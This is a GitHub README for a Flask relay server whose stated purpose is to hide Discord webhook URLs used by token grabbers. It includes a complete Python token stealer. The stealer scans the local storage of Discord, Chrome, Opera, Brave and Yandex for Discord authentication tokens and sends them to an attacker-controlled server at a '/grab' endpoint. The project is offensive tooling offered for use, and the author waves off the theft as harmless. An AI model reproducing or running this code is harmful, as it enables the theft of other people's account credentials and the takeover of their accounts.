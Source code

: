 # Discord Webhook Protection

 A Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# set paths to where tokens are stored
localappdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
paths = {
    'Discord': os.path.join(roaming, 'Discord'),
    'Discord Canary': os.path.join(roaming, 'DiscordCanary'),
    'Discord PTB': os.path.join(roaming, 'DiscordPTB'),
    'Google Chrome': os.path.join(localappdata, 'Google', 'Chrome', 'User Data', 'Default'),
    'Opera': os.path.join(roaming, 'Opera Software', 'Opera Stable'),
    'Brave': os.path.join(localappdata, 'BraveSoftware', 'Brave-Browser', 'User Data', 'Default'),
    'Yandex': os.path.join(localappdata, 'Yandex', 'YandexBrowser', 'User Data', 'Default')
}

# grab tokens
tokens = []

for platform, path in paths.items():
    path = os.path.join(path, 'Local Storage', 'leveldb')

    if os.path.exists(path) is False:
        continue

    for item in os.listdir(path):
        if (item[-4:] in ('.log', '.ldb')) is False:
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

# send tokens to the webhook protection API
try:
    data = {'secret': SECRET, 'tokens': tokens}

    # note that using json=data, requests module automatically sets the Content-Type header to application/json
    res = requests.post(f'http://{API_IP}:{API_PORT}/grab', json=data)
except:
    pass
```

Don't judge the token grabber. I made it simple to understand, not efficient : P

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py` (It's recommened to set up a production WSGI server)

## TODO

* [ ] Set up a MySQL database to store tokens, used to prevent dupes
* [ ] IP-address based rate limit to prevent abusers from flooding the API
* [ ] Support multiple tokens in a single request using `,` seperator
